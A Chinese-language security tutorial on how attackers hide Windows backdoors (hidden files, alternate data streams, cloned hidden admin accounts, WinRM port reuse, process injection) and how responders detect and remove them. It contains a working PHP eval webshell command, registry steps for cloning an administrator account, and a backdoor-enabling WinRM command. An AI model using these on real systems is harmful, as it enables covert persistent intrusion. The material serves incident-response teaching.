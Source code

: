 
# 0x00 前言
攻击者在获取服务器权限后，通常会用一些后门来维持权限，如果你想让你的后门保持的更久些，那么请隐藏好它，使之不易被管理员发现。


# 0x01 隐藏文件

## 1、利用文件属性
最简单的一种隐藏文件的方式，文件右键属性，勾选隐藏，点击确定后，在这个文件里看不到刚刚的文件了。<br />![privilege-1-1.png](../.._img\05-应急响应/1656916772368-06a97d2e-3dd0-4a97-8f80-521d766b8e75.png)

如果要让文件显示出来，就点击查看，勾选显示隐藏的文件，文件就显示出来。<br />![privilege-1-2.png](../.._img\05-应急响应/1656916776917-af9c0654-4592-44f9-917b-66c49a3d2784.png)

如何真正隐藏文件？

使用Attrib +s +a +h +r命令就是把原本的文件夹增加了系统文件属性、存档文件属性、只读文件属性和隐藏文件属性。

`attrib +s +a +h +r D:\test\project\test`.txt

这样就做到了真正的隐藏，不管你是否显示隐藏文件，此文件夹都看不见。

破解隐藏文件：<br />打开电脑文件夹选项卡，取消”隐藏受保护的操作系统文件“勾选，把”隐藏文件和文件夹“下面的单选选择“显示隐藏的文件、文件夹和驱动器”。<br />![privilege-1-3.png](../.._img\05-应急响应/1656916788936-388c0fbd-84c8-4973-9fdd-1dee2048f8fd.png)


## 2、利用ADS隐藏文件内容
在服务器上echo一个数据流文件进去，比如index.php是网页正常文件，我们可以这样子搞：
```
echo ^<?php @eval($_POST['chopper']);?^> > index.php:hidden.jpg
```

这样子就生成了一个不可见的shell hidden.jpg，常规的文件管理器、type命令，dir命令、del命令发现都找不出那个hidden.jpg的。
```
问题1：如何查看index.php:hidden.jpg内容呢？

　　	进入文件所在目录，notepad index.php:hidden.jpg    或者 dir /r
　　	
问题2：如何删除index.php:hidden.jpg？

     直接删除index.php即可
```


## 3、驱动级文件隐藏
驱动隐藏我们可以用过一些软件来实现，软件名字叫：Easy File Locker<br />下载链接： [http://www.xoslab.com/efl.html](http://www.xoslab.com/efl.html)
如果你在网站目录未查找到相关文件，且系统目录存在存在以下文件：
```
c:\WINDOWS\xlkfs.dat
c:\WINDOWS\xlkfs.dll
c:\WINDOWS\xlkfs.ini
c:\WINDOWS\system32\drivers\xlkfs.sys
```

那么你，应该是遭遇了驱动级文件隐藏。

如何清除？
```
1、查询服务状态： sc qc xlkfs
2、停止服务： net stop xlkfs 服务停止以后，经驱动级隐藏的文件即可显现
3、删除服务： sc delete xlkfs
4、删除系统目录下面的文件，重启系统，确认服务已经被清理了。
```

隐藏文件的方式还有很多，比如伪装成一个系统文件夹图标，利用畸形文件名、保留文件名无法删除，甚至取一个与系统文件很像的文件名并放在正常目录里面，很难辨别出来。

这些隐藏文件的方式早已不再是秘密，而更多的恶意程序开始实现“无文件”攻击，这种方式极难被发现。


# 0x02 隐藏账号
window 隐藏系统用户操作，CMD命令行下，建立了一个用户名为“test$”，密码为“abc123!”的简单隐藏账户,并且把该隐藏账户提升为了管理员权限。<br />![privilege-1-4.png](../.._img\05-应急响应/1656916814020-e437db1d-632e-43fb-9dad-912486414878.png)

PS:CMD命令行使用"net user",看不到"test$"这个账号，但在控制面板和本地用户和组是可以显示此用户的。

克隆账号制作过程：<br />1、“开始”→“运行”，输入“regedt32.exe”后回车,需要到“HKEY_LOCAL_MACHINE\SAM\SAM”，单机右建权限，把名叫：administrator的用户给予：完全控制以及读取的权限，在后面打勾就行，然后关闭注册表编辑器，再次打开即可。<br />![privilege-1-5.png](../.._img\05-应急响应/1656916819395-3534ba7c-9e04-48c2-b705-13ee6964f484.png)

2、来到注册表编辑器的“HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users\Names”处，点击test$用户，得到在右边显示的键值中的“类型”一项显示为0x3ec，找到箭头所指目录。<br />![privilege-1-6.png](../.._img\05-应急响应/1656916822767-ed71a89d-bb2e-4417-b688-f58e4aaf43a1.png)

3、找到administrator所对应的的项为“000001F4”，将“000001F4”的F值复制到“000003EC”的F值中，保存。<br />![privilege-1-7.png](../.._img\05-应急响应/1656916826519-ef58c2bc-e46f-4c5c-916e-03fb3cd1304b.png)

4、分别test![](https://g.yuque.com/gr/latex?%E5%92%8C%E2%80%9C000003EC%E5%AF%BC%E5%87%BA%E5%88%B0%E6%A1%8C%E9%9D%A2%EF%BC%8C%E5%88%A0%E9%99%A4test#card=math&code=%E5%92%8C%E2%80%9C000003EC%E5%AF%BC%E5%87%BA%E5%88%B0%E6%A1%8C%E9%9D%A2%EF%BC%8C%E5%88%A0%E9%99%A4test&id=xsqSH)用户   net user test$ /del<br />![privilege-1-8.png](../.._img\05-应急响应/1656916831122-4f8cdf87-1ba2-463e-b191-2f037679a1fc.png)

5、将刚才导出的两个后缀为.reg的注册表项导入注册表中。这样所谓的隐藏账户就创建好了。PS：不管你是在命令提示符下输入net user 或者在系统用户管理界面都是看不到test$这个账户的，只有在注册表中才能看得到。

检测和清理方法：<br />使用D盾_web查杀工具，使用克隆账号检测功能进行查看，可检测出隐藏、克隆账号。<br />![privilege-1-9.png](../.._img\05-应急响应/1656916837099-fcbfab4d-6ea2-4b3e-861b-672677f47256.png)


# 0x03 端口复用
通过端口复用来达到隐藏端口的目的，在Window下，如何实现端口复用呢？

前阵子，@Twi1ight公布了一种基于内置系统服务的端口复用后门方法，利用WinRM服务，一条命令实现端口复用后门：

`winrm set winrm/config/service @{EnableCompatibilityHttpListener="true"}`

一般开启WinRM服务作为远程管理，但还是第一次听到可以作为端口复用，一种简单容易实现的端口复用方式。假设，攻击者已获取到administrator账号密码，连接远程WinRM服务执行命令：<br />![privilege-1-19.png](../.._img\05-应急响应/1656916846525-5324786a-618b-4191-b3e3-aa47a1f14f66.png)

当执行这条命令的同时，将在安全日志中留下痕迹，<br />![privilege-1-20.png](../.._img\05-应急响应/1656916850369-6f49528c-504a-47b5-a40b-635e745b870c.png)

另外，可以通过代码实现端口复用重定向，工具：[https://github.com/crabkun/Switcher](https://github.com/crabkun/Switcher)


# 0x04 进程注入
进程注入，一直是病毒木马的惯用手段，同时，它也是一种隐藏技术。在常见的渗透测试框架中，进程注入是怎么做的以及我们如何通过工具排查出来？


## 1、meterpreter会话注入
当前权限无法获取hash值，查看目前系统进程<br />![privilege-1-10.png](../.._img\05-应急响应/1656916860130-505f4acc-b30d-42b0-9557-9d897055ba6f.png)

通过migrate将进程注入到system进程后，成功获得hash值。<br />![privilege-1-11.png](../.._img\05-应急响应/1656916864106-83609ddc-7e38-4999-92c0-c77423c535fd.png)

Window后门排查：

通过TCPview显示已建立的TCP连接，我们可以看到异常的连接，同时，恶意软件将以绿色显示不到一秒钟，然后变成红色消失，如此循环。<br />![privilege-1-12.png](../.._img\05-应急响应/1656916869374-2efc2db8-3e6f-4e39-8a34-636ad52c354a.png)


## 2、Empire会话进程注入
通过psinject模块进行会话注入，直接输入ps选择一个SYSTEM权限的进程PID，使用进程注入模块，来获取权限。如下图：<br />![privilege-1-13.png](../.._img\05-应急响应/1656916874690-33f430fd-febf-435d-9d9d-ab6c4d45db75.png)

Window后门排查：利用process monitor或者火绒剑监控进程都可以定位到注入进程。<br />![privilege-1-14.png](../.._img\05-应急响应/1656916878258-483e8059-ea5b-4fd2-8310-1e5b951b989a.png)

![privilege-1-15.png](../.._img\05-应急响应/1656916882444-ace4f8c8-1557-49a1-bd3b-b3f2e81584dc.png)


## 3、Cobalt Strike进程注入
选择进程，点击inject，随后选择监听器，点击choose，即可发现Cobaltstrike弹回了目标机的一个新会话，这个会话就是成功注入到某进程的beacon。<br />![privilege-1-16.png](../.._img\05-应急响应/1656916890182-60e81959-9b71-4a2e-88e4-257b60d4a7a7.png)

![privilege-1-17.png](../.._img\05-应急响应/1656916904029-28fd5034-a180-46ac-9d7a-1fe88ed3be03.png)

Window后门排查：利用process monitor捕捉通信过程，有规律的请求取决于sleep设置的间隔。<br />![privilege-1-18.png](../.._img\05-应急响应/1656916909967-51e0dc33-a0d4-4833-9a63-70ad55eb021c.png)


### 0x05  结束
本文主要介绍了Window下的几种隐藏技术，包括隐藏文件、隐藏账号、端口复用、进程注入等方面的简单实现及其排查技巧。仅作抛砖引玉之用，欢迎留言分享。

